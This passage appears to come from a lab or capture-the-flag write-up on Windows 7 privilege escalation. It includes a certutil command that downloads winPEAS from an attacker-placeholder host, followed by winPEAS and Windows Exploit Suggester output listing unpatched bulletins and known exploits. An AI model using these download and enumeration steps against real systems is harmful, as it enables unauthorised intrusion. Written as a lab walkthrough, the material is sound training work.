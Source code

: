 This is looking juicy. We then download and run WinPEAS for more information on the patches installed on this machine::

**Download WinPEAS** with CertUtil:
```
certutil -urlcache -split -f "http://<attacker-ip>:8000/winPEAS.bat" 
```

**WinPEAS output**
```
MS11-080 patch is NOT installed XP/SP3,2K3/SP3-afd.sys)
MS16-032 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-secondary logon)
MS11-011 patch is NOT installed XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP1/2,7/SP0-WmiTraceMessageVa)
MS10-59 patch is NOT installed 2K8,Vista,7/SP0-Chimichurri)
MS10-21 patch is NOT installed 2K/SP4,XP/SP2/3,2K3/SP2,2K8/SP2,Vista/SP0/1/2,7/SP0-Win Kernel)
MS10-092 patch is NOT installed 2K8/SP0/1/2,Vista/SP1/2,7/SP0-Task Sched)
MS10-073 patch is NOT installed XP/SP2/3,2K3/SP2/2K8/SP2,Vista/SP1/2,7/SP0-Keyboard Layout)
MS17-017 patch is NOT installed 2K8/SP2,Vista/SP2,7/SP1-Registry Hive Loading)
MS10-015 patch is NOT installed 2K,XP,2K3,2K8,Vista,7-User Mode to Ring)
MS08-025 patch is NOT installed 2K/SP4,XP/SP2,2K3/SP1/2,2K8/SP0,Vista/SP0/1-win32k.sys)
MS06-049 patch is NOT installed 2K/SP4-ZwQuerySysInfo)
MS06-030 patch is NOT installed 2K,XP/SP2-Mrxsmb.sys)
MS05-055 patch is NOT installed 2K/SP4-APC Data-Free)
MS05-018 patch is NOT installed 2K/SP3/4,XP/SP1/2-CSRSS)
MS04-019 patch is NOT installed 2K/SP2/3/4-Utility Manager)
MS04-011 patch is NOT installed 2K/SP2/3/4,XP/SP0/1-LSASS service BoF)
MS04-020 patch is NOT installed 2K/SP4-POSIX)
MS14-040 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-afd.sys Dangling Pointer)
MS16-016 patch is NOT installed 2K8/SP1/2,Vista/SP2,7/SP1-WebDAV to Address)
MS15-051 patch is NOT installed 2K3/SP2,2K8/SP2,Vista/SP2,7/SP1-win32k.sys)
MS14-070 patch is NOT installed 2K3/SP2-TCP/IP)
MS13-005 patch is NOT installed Vista,7,8,2008,2008R2,2012,RT-hwnd_broadcast)
MS13-053 patch is NOT installed 7SP0/SP1_x86-schlamperei)
MS13-081 patch is NOT installed 7SP0/SP1_x86-track_popup_menu)
```

Alternatively, we can run the venerable [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) (ensuring that it is the original version, not NG) remotely to discover opportunities for obtaining root access.
<br/><br/>
**Note:** Like many, initially I had trouble getting the script to use the Microsoft Excel spreadsheet generated by the `xx` flag. This has to do with the use of the Python library `xlrd`, which can be mitigated via the use of Python virtual environments (`venv`). Alternatively, a quick fix is available [here](https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/50#issuecomment-1025764542).
<br/><br/>

**WES output**
```
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2022-10-20-mmsb.xls --systeminfo systeminfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 179 potential bulletins(s) with a database of 137 known exploits
[*] there are now 179 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 7 32-bit'
[*]
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
```